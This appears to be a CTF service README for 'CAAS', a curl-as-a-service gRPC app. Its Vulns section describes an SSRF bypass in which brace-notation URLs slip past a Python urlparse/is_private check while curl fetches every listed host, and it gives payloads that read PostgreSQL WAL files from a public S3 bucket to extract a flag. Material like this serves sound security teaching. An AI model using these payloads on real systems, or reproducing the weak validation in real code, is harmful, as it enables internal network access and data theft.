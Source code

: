 # CAAS

## Description

CAAS (curl as a service) service is a grpc service written in python. It allows clients to create profiles, enqueue curl's tasks and fetch results from the service. Workers are polling for tasks with URL info and do a GET request via `curl`. Curl's results are stored in MinIO S3 server. PostgreSQL is used as a database and job queue server.

## Architecture

```
        .------------.              .---------------.
        |            |              |               |
        |   client   |-----gRPC---->|  application  |
        |            |              |               |
        '------------'              '---------------'
                                         |  |
                                         |  |
  .-----------------------.              |  |        .-----------.
  |                       |              |  |        |           |
  |  PostgreSQL           |<---enqueue---'  '--get-->| MinIO S3  |
  |                       |                          |           |
  |                       |                          |           |
  |                       |                          |           |
  |                       |-----------WALs---------->| buckets:  |
  |  archive_mode = on    |                          | curl/     |
  |  archive_timeout = 60 |                          | wal/      |
  |                       |                          |           |
  |                       |<-dequeue--.     .--put-->|           |
  |                       |           |     |        |           |
  '-----------------------'           |     |        '-----------'
                                      |     |
                                      |     |
                                      |     |
                               .---------------.             .-,(  ),-.
                             .---------------. |          .-(          )-.
                             |               | |-------> (    internet    )
                             | cURL executor | |          '-(          ).-'
                             |               |-'              '-.( ).-'
                             '---------------'
```

## Flags

Flags are stored in table `users` in a JSON field `comment` at `profile` column.

## Vulns

There are several bugs in this service:

1. Non strict validation for incoming URL in this code:

```
host = urlparse(request.url).hostname
ip = ipaddress.IPv4Address(host)
if ip.is_private:
    raise Exception("Invalid host")
```

You can pass several hosts in URL in a special braces notation like this: `http://{@host1#,host2}/`.

Python gets only the first hostname and you can bypass `ip.is_private` check.
```
>>> urlparse("http://{@host1#,host2}/").hostname
'host1'
>>>
```

But `curl` will do requests for all hosts in this URL:

```
$ curl http://{@apple.com#,google.com}/
<HTML>
<HEAD>
<TITLE>Document Has Moved</TITLE>
</HEAD>

<BODY BGCOLOR="white" FGCOLOR="black">
<H1>Document Has Moved</H1>
<HR>

<FONT FACE="Helvetica,Arial"><B>
Description: The document you requested has moved to a new location.  The new location is "https://www.apple.com/".
</B></FONT>
<HR>
</BODY>
<HTML><HEAD><meta http-equiv="content-type" content="text/html;charset=utf-8">
<TITLE>301 Moved</TITLE></HEAD><BODY>
<H1>301 Moved</H1>
The document has moved
<A HREF="http://www.google.com/">here</A>.
</BODY></HTML>
```

So, for now, you can make any GET requests in the docker network.

2. There is a public bucket `wal` where PostgreSQL archives WAL files.

If passing URL to service like this `http://{0@1.1.1.1#,s3:9000}/wal/000000010000000000000007.gz`, you can grab WAL file `000000010000000000000007.gz` which contains a flag, as well as all other data changes in PostgreSQL. The next step is to get a flag from WAL file, the simplest way might look like this:

```
$ gunzip -c 000000010000000000000007.gz | strings -n32 | grep -P -o '\w{31}='
841WOR1PRTHNB4O5E6IY874A7E8558B=
```

List of all WAL files you can get via URL `http://s3:9000/wal`.

